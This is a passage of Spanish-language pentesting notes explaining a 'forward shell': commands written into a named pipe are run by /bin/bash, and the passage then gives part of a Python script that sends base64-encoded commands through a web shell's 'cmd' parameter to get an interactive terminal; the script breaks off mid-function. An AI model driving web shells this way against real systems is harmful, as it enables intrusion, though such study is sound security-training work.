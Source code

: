 En este caso estamos cateando el archivo input para que cuando se introduzca algún dato en el mismo sea ejecutado por una bash y rediriga el resultado en el archivo output. 
De manera que si yo con echo introduzco un comando como por ejemplo **(echo "whoami" > input)** podré ver el resultado del comando en el archivo output

Ahora puedo hacer lo siguiente, abrir dos terminales donde en uno sea para introducir comandos y otro para visualizar el resultado
1º Terminal ejecutamos el siguiente bucle infinito
```bash
while true;do cat input | /bin/bash > output && cat output; done
```

2º Terminal podemos ejecutar cualquier comando que introduzcas en el archivo mkfifo
```bash
echo "whoami" > input
```
Ahora seguidamente veremos el output del resultado en la primera terminal.

También se puede hacer con tail -f, si no sabes que hace esto mira [[Filtrar y ordenar datos]].
```bash
tail -f in | /bin/bash > on
```

Para ver el resultado cateas el on, puedes dejarlo automático de la siguiente manera. Este comando se explica en [[Crontab Tareas programadas]]
```bash
watch -n 1 cat on
```

**SCRIPT PARA AUTOMATIZAR TODO ESTE PROCESO**
Una vez entendido esto podemos ejecutar con python3 el siguiente script que nos dará una terminal interactiva, se encuentra en el siguiente repositorio: https://github.com/s4vitar/ttyoverhttp
```python
#!/usr/bin/python3

import requests, time, threading, pdb, signal, sys
from base64 import b64encode
from random import randrange

class AllTheReads(object):
	def __init__(self, interval=1):
		self.interval = interval
		thread = threading.Thread(target=self.run, args=())
		thread.daemon = True
		thread.start()

	def run(self):
		readoutput = """/bin/cat %s""" % (stdout)
		clearoutput = """echo '' > %s""" % (stdout)
		while True:
			output = RunCmd(readoutput)
			if output:
				RunCmd(clearoutput)
				print(output)
			time.sleep(self.interval)

def RunCmd(cmd):
	cmd = cmd.encode('utf-8')
	cmd = b64encode(cmd).decode('utf-8')
	payload = {
        	'cmd' : 'echo "%s" | base64 -d | sh' %(cmd)
		}
	result = (requests.get('http://127.0.0.1/index.php', params=payload, timeout=5).text).strip()
	return result

def WriteCmd(cmd):
	cmd = cmd.encode('utf-8')
	cmd = b64encode(cmd).decode('utf-8')
```